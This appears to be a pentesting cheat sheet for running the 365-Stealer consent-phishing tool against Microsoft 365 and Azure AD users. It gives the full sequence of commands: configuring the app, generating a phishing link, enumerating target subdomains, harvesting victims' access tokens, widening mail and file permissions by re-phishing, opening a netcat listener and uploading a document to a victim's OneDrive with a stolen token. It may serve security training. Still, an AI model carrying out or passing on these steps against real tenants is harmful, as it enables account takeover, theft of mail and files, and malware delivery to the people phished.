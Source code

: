 #### Setup the 365-stealer

* Copy the 365-stealer directory to the xampp directory

* Edit the 365-stealer.py and edit the CLIENTID (client application id), REDIRECTEDURL and CLIENTSECRET (From the certificate)

#### Start the 365-stealer

```powershell
&"C:\Program Files\Python38\python.exe" C:\xampp\htdocs\365-Stealer\365-Stealer.py --run-app
```

#### Get the phishinglink

* Browse to <https://localhost> and click on readmore. Copy the link!

#### Enumerating applications to send the phishing link

* Edit the permutations.txt to add permutations such as career, hr, users, file and backup

```powershell
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains -Base <BASE> –Verbose
```

#### Get the access tokens

* Browse to <http://localhost:82/365-Stealer/yourvictims/>

* Click on the user and copy the access token from access_token.txt
* See the "Using Azure tokens" section

#### Get admin consent

* <https://docs.microsoft.com/en-us/azure/active-directory/manage-apps/grant-admin-consent>

* Global Admin, Application Admin, or Cloud Application Administrator can all grant tenant wide application admin consent

```powershell
- In the left menu go to 'API permissions' and add the mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send to Microsoft Graph.
- Refish the user to get a token with the extra permissions
```

#### Start a listener

```powershell
nc.exe -lvp 4444
```

#### Abuse the access token - Uploading word doc to OneDrive

```powershell
cd C:\xampp\htdocs\365-Stealer\

& 'C:\Program Files\Python38\python.exe' 365-Stealer.py --upload <PATH TO DOC> --token-path C:\xampp\htdocs\365-Stealer\yourVictims\<USER>\access_token.txt
```
